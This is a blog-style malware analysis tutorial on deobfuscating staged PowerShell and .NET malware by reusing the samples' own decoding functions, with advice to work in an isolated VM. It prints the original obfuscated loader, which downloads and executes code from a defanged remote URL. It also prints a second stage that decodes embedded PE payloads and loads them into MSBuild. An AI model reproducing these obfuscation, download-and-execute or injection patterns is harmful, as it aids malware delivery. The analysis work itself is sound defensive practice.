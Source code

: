 ```yaml
---
layout: post
title: "Smarter, Not Harder: Getting Malware to Help You Analyze It"
date: 2021-09-05
categories: windows malware deobfuscation powershell .net
permalink: /smarter-not-harder-malware-analysis/
---
```


When analyzing even non-advanced malware nowadays it's common to find pretty heavy levels of obfuscation within samples. PowerShell and .NET malware for Windows can be obfuscated easily using various packers/crypters or script obfuscation tools. If you know how to manipulate the malware code, however, you can use the deobfuscation capabilities of malware to reveal unpacked samples.

## Newton's Third Law (of Malware)

If you've studied Physics you've likely run across Newton's Third Law of Motion: "For every action, there is an equal and opposite reaction." The same law can be applied to obfuscated malware. When at rest or during transmission, adversaries may encrypt or encode malicious code to avoid static signatures. During execution, though, the encoding or encryption must be removed so the code can successfully load and execute.

To facilitate this process, adversaries commonly include algorithms within obfuscated code designed to remove the obfuscation at runtime. If you can focus on how the algorithm is called and used, you can use it for your own purposes!

## Safety First!

This exercise in deobfuscation requires us to execute portions of code from malware. We're not performing dynamic analysis, but there is the possibility that we might accidentally execute some malicious code. To protect against this possibility, use a virtual machine for analysis. Prior to analysis, remove any network connections and shared folders before taking a snapshot and beginning to work.

During analysis we want to identify any code designed to interpret, invoke, or execute commands so we can comment them out. We only want to execute commands designed to manipulate data and write data to files.

## A Simple Example to Start

An excellent example of using the malware code against itself can be found with this sample: <https://www.virustotal.com/gui/file/578f5dba1af809ee5b492582c38c5cf6e8bd1319fe91cc2cb0fb6066ca3c1eb9/>. This sample leads to the execution of a second sample that is more complex which we can also work with.

The original code for this sample appears similar to this:

```powershell
$1 = 'Net'+'.@@@@@@@@@@@@@$$$$$$$$$$$$$$$$$>>>>>>>>>>>>>t'.Replace('@@@@@@@@@@@@@$$$$$$$$$$$$$$$$$>>>>>>>>>>>>>',''+'Webc'+'lien')

$2 = '>>>>>>>>>>>>>>>>>>~~~~~~~~~~~~~~~~~~okE'.Replace('>>>>>>>>>>>>>>>>>>~~~~~~~~~~~~~~~~~~','InV')
$3 = 'D'+'o'+'w'+'n'+'l'+'o'+'a'+'d'+'s'+'tri'+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+'n'+'g'

I`EX((n`e`W`-Obj`E`c`T (($1))).(($3)).$2((('hxxps://raw.githubusercontent[.]com/az3r12/NYAN/main/Server.jpg')))).Replace('ooooiiiiiiiiiijhgfghjiugghjllknfderrthbbvccdssgvhhgoooooo','ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0').Replace('rxectfyvhgbuyhnikjmmnubyvbgvfcttyghuytvcxetcryvtubyjnhbgvfcdrctvuybvcrxrtyuubvtrcex','[Parameter(Mandatory=$true)] [String]$HLH').Replace('trdyjtuybiuyminubyvtcrytvybunibuyvtcrxtcytvuybiubihugyftuyiuo','New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)').Replace('fyyfbyfyfjyfjvyhtftdvbytdvtftfbfbytf','[Convert]::ToByte($HLH.Substring($i, 2), 16)').Replace('trcymtuvybiuyvtcrtcytuyiubyvtcw4gh5djf6g7nbfvdrcsxetcrdytfbygyvcdr','{').Replace('yuuuuuuuuuuuuuuuuvgggggggggggxddddddddddzswvttttttttt','(').Replace('mbappebgfvnjjhffgjjufghiolmgfd mbappe',')')
```

In this example, the first three variables contain substrings of `Net.Webclient.DownloadString` obfuscated using string replacement and a string broken up into individual characters. This indicates PowerShell will download something from a URL. Later in the code there is a URL, so we can reasonably assume the code will download something from it. At the beginning of the final line, an `IEX` statement is slightly obfuscated using a single character. `IEX` is shorthand for `Invoke-Expression` in PowerShell, and we can assume it will execute any code downloaded from the URL.

After the `IEX` there are loads of `.Replace()` function calls. This is where the adversary manipulates data in their next stage of the chain. Presumably whatever gets executed will have junk code inside, but the junk code is replaced by real, useful code before execution. Once we retrieve the next stage into a text file, we can deobfuscate it using this code:

```powershell
$obfuscated_script = Get-Content ./Server.jpg

$deobfuscated_script = $obfuscated_script.Replace('ooooiiiiiiiiiijhgfghjiugghjllknfderrthbbvccdssgvhhgoooooo','ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0').Replace('rxectfyvhgbuyhnikjmmnubyvbgvfcttyghuytvcxetcryvtubyjnhbgvfcdrctvuybvcrxrtyuubvtrcex','[Parameter(Mandatory=$true)] [String]$HLH').Replace('trdyjtuybiuyminubyvtcrytvybunibuyvtcrxtcytvuybiubihugyftuyiuo','New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)').Replace('fyyfbyfyfjyfjvyhtftdvbytdvtftfbfbytf','[Convert]::ToByte($HLH.Substring($i, 2), 16)').Replace('trcymtuvybiuyvtcrtcytuyiubyvtcw4gh5djf6g7nbfvdrcsxetcrdytfbygyvcdr','{').Replace('yuuuuuuuuuuuuuuuuvgggggggggggxddddddddddzswvttttttttt','(').Replace('mbappebgfvnjjhffgjjufghiolmgfd mbappe',')')

Set-Content -Path ./deobfuscated_Server.jpg.ps1 -Value $deobfuscated_script
```

In this particular case we reused the `.Replace()` function calls to make all the deobfuscation happen automatically rather than doing a manual find and replace operation for each one. This sort of efficiency can add up to a lot of saved time during analysis.

## Getting More Complex

The next stage in the chain looks something like this (except with much more hex content):

```powershell
$b1 = "111"
$b2 = "105"
$b3 = "130"
$b4 = "[String]" ; $t0=-Join (($b1, $b2, $b3  )| ForEach-Object {( [Convert]::ToInt16(([String]$_), 8) -As[Char])});sal g $t0

$b4=$TC = "4D5A9\/\/\/\/3...".replace('\/','0' )

Function HBankers {
 
    [CmdletBinding( )]
    [OutputType([byte[]] )]
    param(
        [Parameter(Mandatory=$true)] [String]$HLH 
     )
    $HHPPLL = New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)
    for ($i = 0; $i -lt $HLH.Length; $i += 2 ) {
        $HHPPLL[$i / 2] = [Convert]::ToByte($HLH.Substring($i, 2), 16)
    }

    return [byte[]]$HHPPLL
}

[String]$HL = '4D5A9\/\/\/\/3...'.replace('\/','0' )
  
$A1 = "Ge>>>>>>>>>>>>>>>..............>>>>>>>>>>od".Replace('>>>>>>>>>>>>>>>..............>>>>>>>>>>','tMeth' )
$A2 = "g!!!!!!!!!!!!!@@@@@@@@@@@@@@@@################in".Replace('!!!!!!!!!!!!!@@@@@@@@@@@@@@@@################','et_CurrentDoma' )
$A3 = "I@@@@@@@@@@@@@@@>>>>>>>>>>>>>>..!!!!!!!!!!!!!!!!!!!!!!e".Replace('@@@@@@@@@@@@@@@>>>>>>>>>>>>>>..!!!!!!!!!!!!!!!!!!!!!!','nvok' )
$A4 = "Lo!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!".Replace('!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!','ad' )
$a7 = "$null"
$a5 = '[S!!!!!!!!!!!!!!@@@@@@@@@@@@@@!!!!!!!!!!!!!!!!^^^^^^^^^^^^^in]'.Replace('!!!!!!!!!!!!!!@@@@@@@@@@@@@@!!!!!!!!!!!!!!!!^^^^^^^^^^^^^','ystem.AppDoma' ) | g ; $a5.$A1($A2 ).$A3($a7,$null ).$A4([Byte[]](HBankers ($HL  ) ) )| g
$a8 = 'MS>>>>>>>>>>>>>.........e'.Replace('>>>>>>>>>>>>>.........','Build.ex' )

[Byte[]]$HH= HBankers $TC

[rerup]::qw5f0($a8,$HH )
```

There's a lot of fun obfuscation in this step of the chain, but I want to focus on two particular components: the hex strings starting with `4D5A`. The `4D5A` represents a traditional Windows PE header bytes that gets represented as `MZ` in ASCII. The script is shortened in this post for brevity, but examining it in [VirusTotal](https://www.virustotal.com/gui/file/ada2cd99438e9b05b8ed89dc36d4547f90436f5ef6fda2ece3c97b70b90d8bab) will show the sample contains almost 200KB of encoded text. In addition, we can see there are two `Byte[]` array structures used by the code. We can hypothesize that the two hex strings decode into Windows PE files that will eventually be held inside those byte arrays. Now, how can we make that happen?

In both the `Byte[]` array statements, the adversary references the function `HBankers()`. In addition, the declaration for this function shows it takes string input and outputs a byte array. We can reasonably assume this function performs deobfuscation, so let's use it to our advantage! We can use portions of the malware in our own script here:

```powershell
[String]$TC = "4D5A9\/\/\/\/3...".replace('\/','0' )
[String]$HL = '4D5A9\/\/\/\/3...'.replace('\/','0' )

Function HBankers {
 
    [CmdletBinding( )]
    [OutputType([byte[]] )]
    param(
        [Parameter(Mandatory=$true)] [String]$HLH 
     )
    $HHPPLL = New-Object -TypeName byte[] -ArgumentList ($HLH.Length / 2)
    for ($i = 0; $i -lt $HLH.Length; $i += 2 ) {
        $HHPPLL[$i / 2] = [Convert]::ToByte($HLH.Substring($i, 2), 16)
    }

    return [byte[]]$HHPPLL
}

[Byte[]]$deobfuscated_bin_1 = HBankers $TC
[Byte[]]$deobfuscated_bin_2 = HBankers $HL

Set-Content -Path deobfuscated_1.bin -Value $deobfuscated_bin_1 -AsByteStream
Set-Content -Path deobfuscated_2.bin -Value $deobfuscated_bin_2 -AsByteStream
```

Now we can execute the script and then take a look at the files that get created:

```text
PS /home/ForensicITGuy/NYAN> file *.bin
deobfuscated_1.bin: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
deobfuscated_2.bin: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

And just like that, we have the PE binary payloads for additional analysis! The `HBanker()` function contained everything we needed to output a byte array into a variable, and `Set-Content` provided means for us to write that byte array to disk. Now that we have the files, we can continue analysis in the near future.